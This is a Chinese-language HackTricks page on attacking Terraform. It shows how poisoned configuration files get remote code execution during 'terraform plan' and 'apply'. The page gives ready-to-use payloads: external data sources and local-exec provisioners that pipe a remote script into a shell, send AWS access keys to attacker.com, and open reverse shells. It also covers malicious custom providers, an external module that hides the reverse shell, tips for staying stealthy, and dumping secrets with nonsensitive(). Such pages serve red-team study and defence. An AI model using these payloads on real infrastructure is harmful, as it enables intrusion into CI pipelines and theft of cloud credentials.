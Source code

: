 # Terraform 安全性

<details>

<summary><strong>从零开始学习 AWS 黑客技术，成为</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS 红队专家)</strong></a><strong>！</strong></summary>

支持 HackTricks 的其他方式：

* 如果您想在 **HackTricks 中看到您的公司广告** 或 **下载 HackTricks 的 PDF**，请查看 [**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取 [**官方 PEASS & HackTricks 商品**](https://peass.creator-spring.com)
* 发现 [**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们独家的 [**NFTs 集合**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或在 **Twitter** 🐦 上 **关注** 我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享您的黑客技巧。

</details>

## 基本信息

HashiCorp Terraform 是一种**基础设施即代码工具**，它允许您在可版本控制、重用和共享的人类可读配置文件中定义**云和本地资源**。然后，您可以使用一致的工作流程来配置和管理您的所有基础设施的整个生命周期。Terraform 可以管理低级组件，如计算、存储和网络资源，以及高级组件，如 DNS 条目和 SaaS 功能。

### Terraform 如何工作？

Terraform 通过云平台和其他服务的应用程序编程接口 (API) 创建和管理资源。提供者使 Terraform 能够与几乎任何具有可访问 API 的平台或服务一起工作。

![](<../../.gitbook/assets/image (33).png>)

HashiCorp 和 Terraform 社区已经编写了**超过 1700 个提供者**来管理数千种不同类型的资源和服务，这个数字还在持续增长。您可以在 [Terraform 注册表](https://registry.terraform.io/)上找到所有公开可用的提供者，包括 Amazon Web Services (AWS)、Azure、Google Cloud Platform (GCP)、Kubernetes、Helm、GitHub、Splunk、DataDog 等等。

Terraform 的核心工作流程包括三个阶段：

* **编写：** 您定义资源，这些资源可能跨越多个云提供商和服务。例如，您可能创建一个配置，在虚拟私有云 (VPC) 网络中的虚拟机上部署应用程序，并带有安全组和负载均衡器。
* **计划：** Terraform 创建一个执行计划，描述基于现有基础设施和您的配置将创建、更新或销毁的基础设施。
* **应用：** 经过批准后，Terraform 按照正确的顺序执行建议的操作，尊重任何资源依赖关系。例如，如果您更新了 VPC 的属性并更改了该 VPC 中的虚拟机数量，Terraform 将在扩展虚拟机之前重新创建 VPC。

![](<../../.gitbook/assets/image (81).png>)

### Terraform 企业版

Terraform 企业版允许您在**自托管的 Terraform Cloud 版本**中远程**运行命令**，如 `terraform plan` 或 `terraform apply`。因此，如果您找到了访问该 Terraform 服务器的**API 密钥**，您可以**危害它**。\
更多信息请查看：

{% content-ref url="terraform-enterprise-security.md" %}
[terraform-enterprise-security.md](terraform-enterprise-security.md)
{% endcontent-ref %}

## Terraform 实验室

只需在您的计算机上安装 terraform。

这里有一个[指南](https://learn.hashicorp.com/tutorials/terraform/install-cli)，这里有[下载 terraform 的最佳方式](https://www.terraform.io/downloads)。

## Terraform 中的 RCE

Terraform **没有暴露网页或网络服务的平台**我们可以枚举，因此，危害 terraform 的唯一方法是**能够添加/修改 terraform 配置文件**。

然而，terraform 是一个**非常敏感的组件**，因为它将拥有**特权访问**不同位置，以便正常工作。

攻击者能够危害运行 terraform 的系统的主要方式是**危害存储 terraform 配置的仓库**，因为它们在某个时刻将被**解释**。

实际上，有一些解决方案在创建 PR 后会**自动执行 terraform 计划/应用**，例如 **Atlantis**：

{% content-ref url="../atlantis-security.md" %}
[atlantis-security.md](../atlantis-security.md)
{% endcontent-ref %}

如果您能够危害一个 terraform 文件，当有人执行 `terraform plan` 或 `terraform apply` 时，您可以通过不同的方式执行 RCE。

### Terraform 计划

Terraform 计划是 terraform 中**最常用的命令**，开发人员/使用 terraform 的解决方案一直在调用它，因此**获得 RCE 的最简单方法**是确保您污染了一个将在 `terraform plan` 中执行任意命令的 terraform 配置文件。

#### 使用外部提供者

Terraform 提供了 [`external` 提供者](https://registry.terraform.io/providers/hashicorp/external/latest/docs)，它提供了一种在 Terraform 和外部程序之间进行接口的方法。您可以使用 `external` 数据源在 `plan` 期间运行任意代码。

在 terraform 配置文件中注入类似以下内容将在执行 `terraform plan` 时执行反向 shell：
```javascript
data "external" "example" {
program = ["sh", "-c", "curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh"]
}
```
#### 使用自定义提供者

任何人都可以编写一个[自定义提供者](https://learn.hashicorp.com/tutorials/terraform/provider-setup)并将其发布到[Terraform Registry](https://registry.terraform.io/)。您也可以尝试从私有注册表中拉取自定义提供者。

就是这样：

* 编写一个运行恶意代码的自定义提供者（如泄露凭证或客户数据）
* 将其发布到 Terraform Registry
* 在功能分支中添加该提供者到 Terraform 代码
* 为功能分支打开一个 PR
```javascript
terraform {
required_providers {
evil = {
source  = "evil/evil"
version = "1.0"
}
}
}

provider "evil" {}
```
```markdown
由于提供者将在 `init` 期间被拉入，并在 `plan` 期间运行一些代码，你有任意代码执行的能力。

你可以在 [https://github.com/rung/terraform-provider-cmdexec](https://github.com/rung/terraform-provider-cmdexec) 找到一个例子

#### 使用外部引用

上述两个选项都很有用，但不是非常隐蔽（第二个更隐蔽但比第一个复杂）。你可以通过遵循以下建议，以更**隐蔽的方式**执行此攻击：

* 与其直接将 rev shell 添加到 terraform 文件中，不如**加载包含 rev shell 的外部资源**：
```
```javascript
module "not_rev_shell" {
source = "git@github.com:carlospolop/terraform_external_module_rev_shell//modules"
}
```
您可以在 [https://github.com/carlospolop/terraform_external_module_rev_shell/tree/main/modules](https://github.com/carlospolop/terraform_external_module_rev_shell/tree/main/modules) 找到反向 shell 代码

* 在外部资源中，使用 **ref** 功能在仓库内部的一个分支中隐藏 **terraform 反向 shell 代码**，类似于：`git@github.com:carlospolop/terraform_external_module_rev_shell//modules?ref=b401d2b`

### Terraform 应用

Terraform apply 将被执行以应用所有更改，您也可以通过注入**恶意的 Terraform 文件**与 [**local-exec**](https://www.terraform.io/docs/provisioners/local-exec.html) 来滥用它以获得 RCE。\
您只需确保像下面这样的有效载荷最终出现在 `main.tf` 文件中：
```json
// Payload 1 to just steal a secret
resource "null_resource" "secret_stealer" {
provisioner "local-exec" {
command = "curl https://attacker.com?access_key=$AWS_ACCESS_KEY&secret=$AWS_SECRET_KEY"
}
}

// Payload 2 to get a rev shell
resource "null_resource" "rev_shell" {
provisioner "local-exec" {
command = "sh -c 'curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh'"
}
}
```
遵循**前一技巧的建议**，使用**外部引用**以更隐秘的方式执行此攻击。

## Secrets Dumps

您可以通过在 terraform 文件中添加如下内容，运行 `terraform apply` 来**转储 terraform 使用的秘密值**：
```json
output "dotoken" {
value = nonsensitive(var.do_token)
}
```
## 审计工具

* [**tfsec**](https://github.com/aquasecurity/tfsec): tfsec 使用静态分析你的 terraform 代码来发现潜在的配置错误。
* [**terascan**](https://github.com/tenable/terrascan): Terrascan 是针对基础设施即代码的静态代码分析器。

## 参考资料

* [Atlantis 安全](../atlantis-security.md)
* [https://alex.kaskaso.li/post/terraform-plan-rce](https://alex.kaskaso.li/post/terraform-plan-rce)

<details>

<summary><strong>通过</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS 红队专家)</strong></a><strong>从零开始学习 AWS 黑客攻击！</strong></summary>

其他支持 HackTricks 的方式：

* 如果你想在 HackTricks 中看到你的**公司广告**或**下载 HackTricks 的 PDF**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方 PEASS & HackTricks 商品**](https://peass.creator-spring.com)
* 发现[**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs 集合**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来**分享你的黑客技巧。

</details>
